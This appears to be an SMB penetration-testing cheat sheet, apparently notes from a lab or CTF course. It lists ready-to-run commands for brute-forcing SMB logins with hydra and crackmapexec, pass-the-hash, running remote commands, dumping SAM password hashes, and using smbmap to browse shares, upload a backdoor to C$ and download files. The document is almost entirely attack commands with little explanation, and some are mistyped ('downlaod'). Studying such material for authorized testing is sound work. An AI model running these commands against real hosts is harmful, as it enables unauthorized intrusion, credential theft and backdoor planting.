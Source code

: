 
Some scripts will just work if SMBv1 is enabled on the target host. On modern days this is not a common thing but in some legacy hosts it is still enabled.

--------------------------------------------------------------------

### BRUTEFORCE

```bash
$ hydra -l admin -P /usr/shar/wordlists/rockyou.txt 0.0.0.0 smb
```
```shell
$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```


--------------------------------------------------------------------
#### Crackmapexec
```shell
$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
```shell
$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```
```shell
$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
#### Extract Hashes from SAM Database
```shell
$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```
### smbmap

```bash
$ smbmap -u guest -p “” -d . -H 0.0.0.0

$ smbmap -H 0.0.0.0 -u administrator -p smbserver_771 -x ‘ipconfig’

$ smbmap -H 0.0.0.0 -u administrator -p ‘smbserver_771’ -L

$ smbmap -H 0.0.0.0 -u administrator -p ‘smbserver_771’ -r ‘C$’

$ smbmap -H 0.0.0.0 -u administrator -p ‘smbserver_771’ —upload ‘/root/backdoor’ ‘C$\backdoor’

$ smbmap -H 0.0.0.0 -u administrator -p ‘smbserver_771’ —downlaod ‘C$\flag.txt’

$ smbmap -H 0.0.0.0 -u admin -p password1
```
```shell
$ smbmap -H 10.129.14.128 --download "notes\note.txt"
```
```shell
$ smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```
Using `smbmap` with the `-r` or `-R` (recursive) option, one can browse the directories:
